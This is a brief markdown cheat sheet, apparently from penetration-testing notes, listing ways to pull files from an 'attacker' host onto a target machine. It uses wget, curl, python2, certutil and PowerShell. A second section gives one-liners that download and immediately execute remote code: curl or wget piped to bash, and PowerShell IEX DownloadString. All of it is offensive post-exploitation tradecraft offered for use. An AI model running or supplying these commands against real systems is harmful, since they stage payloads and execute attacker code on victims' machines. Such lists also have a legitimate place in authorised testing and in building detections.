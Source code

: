# Methods to download files from attacker

```bash
wget http://$address:$port/$download_path
wget $address:$port/$download_path
curl "http://$address:$port/$download_path" --output $file_name
python2 -c "import urllib; urllib.urlretrieve('http://lhost/some_file', 'somefile');"
```

```cmd
certutil -urlcache -split -f "http://$address:$port/$download_path" $file_name
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$address:$port/$download_path','$file_name')"
powershell -c "wget 'http://$address:$port/$download_path' -outfile $file_name" -UseBasicParsing
```

# Methods to download files from attacker and run it immediately 

```bash
wget -qO- "http://$address:$port/$download_path" | bash
curl "http://$address:$port/$download_path" | bash
```

```cmd
powershell IEX (New-Object Net.WebClient).DownloadString(\'http://$address:$port/$download_path\')
```
